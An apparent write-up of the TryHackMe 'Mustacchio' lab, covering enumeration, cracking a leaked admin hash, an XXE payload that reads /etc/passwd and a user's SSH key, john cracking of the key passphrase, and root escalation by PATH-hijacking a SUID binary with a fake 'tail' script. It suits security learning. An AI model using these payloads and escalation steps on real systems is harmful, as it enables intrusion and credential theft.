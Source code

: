 # Mustacchio (THM)

- https://tryhackme.com/room/mustacchio
- March 8, 2023
- easy

---

## Enumeration

### Nmap

1. 22/ssh OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
2. 80/http Apache httpd 2.4.18 ((Ubuntu))

- after running rust scan, found open port at 8765

3. 8765/http nginx 1.10.3 (Ubuntu)
   - which is a login page

### HTTP

- directory brute forcing with ffuf

```
custom
images
fonts
robots.txt
```

- In custom, user.bak file found

![](images/2023-03-08-13-09-46.png)

- download it, and it is sqlite data
- check the database

![](images/2023-03-08-13-12-10.png)

- found admin password, which may be sha1 hash
- use https://crackstation.net and get password

- Try to enter login page which is opened at port 8765

![](images/2023-03-08-13-20-43.png)

- add random comment and found that post request via `xml` parameter

![](images/2023-03-08-13-21-54.png)

- whatever comment said, it shows nothing
- from view page source, found two interesting things

![](images/2023-03-08-13-27-33.png)

- download the dontforget.bak file, which is xml file and read the contents

![](images/2023-03-08-13-28-49.png)

- it is an example of that we can comment
- copy and paste into comment box and we can see the result

![](images/2023-03-08-13-29-43.png)

- try xxe injection, in view page source said, `Barry, you can now SSH in using your key` - may be, try to find barry's ssh key?

- just try with `/etc/password` file to check

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE replace [<!ENTITY ent SYSTEM "file:///etc/passwd"> ]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>&ent;</com>
</comment>

```

![](images/2023-03-08-13-32-44.png)

- barry has home directory `/home/barry`
- find his id_rsa key which can be under `.ssh` folder
- get his id_rsa key

![](images/2023-03-08-13-34-15.png)

- it is better to copy from view page source
- don't forget to add extra `Enter` after the last line while pasting ssh key
- change permission to 600
- try to enter ssh
- but need passphrase
- try with previous password to login website, but not success
- use john to crack password

```sh
$ /opt/tools/john/run/ssh2john.py id_rsa > forj.txt
$ john forj.txt --wordlist=/usr/share/wordlists/rockyou.txt
# found password
```

## User Access

- enter ssh as `barry` user with above credentials found.
- don't know barry's password and unable to sudo
- find suid

```sh
$ find / -perm -4000 2>/dev/null
...
/home/joe/live_log
...

barry@mustacchio:/tmp$ ls /home/joe -la
total 28
...
-rwsr-xr-x 1 root root 16832 Jun 12  2021 live_log

```

![](images/2023-03-08-13-50-49.png)

- by reading the source code with `strings`, live_log may be use this command `tail -f /var/log/nginx/access.log`

- if we can create, another `tail` command , we will get root access

## Root Access

- go to `/tmp` and create `tail` file
- inside tail, write

```sh
#!/bin/bash

cp /bin/bash /tmp/bash;
chmod +s /tmp/bash;
```

- then chmod +x
- update PATH, so that `/tmp` run first

```sh
barry@mustacchio:/tmp$ chmod +x tail

barry@mustacchio:/var/log$ echo $PATH
/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

barry@mustacchio:/var/log$ export PATH=/tmp:$PATH

barry@mustacchio:/var/log$ echo $PATH
/tmp:/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/usr/games:/usr/local/games:/snap/bin

```

- then

```sh
barry@mustacchio:/tmp$ which tail
/tmp/tail

barry@mustacchio:/tmp$ cd /home/joe

barry@mustacchio:/home/joe$ ls
live_log

barry@mustacchio:/home/joe$ ./live_log
```

- it will run the `tail` under `/tmp` folder by root and will create `bash` file under `/tmp`

- go to `/tmp` and run `bash`

```sh
barry@mustacchio:/tmp$ /tmp/bash -p
bash-4.3# whoami
root
```

---
